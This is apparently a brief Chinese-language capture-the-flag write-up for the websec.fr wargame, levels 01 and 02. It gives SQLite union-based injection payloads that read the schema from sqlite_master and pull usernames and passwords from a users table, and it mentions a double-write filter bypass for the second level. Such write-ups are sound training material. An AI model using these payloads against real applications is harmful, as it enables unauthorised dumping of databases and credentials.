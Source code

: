##### level 01

一道SQLite整型注入的题目，找到注入方法后可以查看表结构：

```sqlite
-1 union select name,sql from sqlite_master
```

再尝试

```sqlite
-1 union select username,password from users where id=1
```

即可获取到flag。

##### level 02

前一题基础上加了一个双写绕过，不再赘述。

wp参考：https://faizalhasanwala.me/2019-09-24-websec-fr-writeup/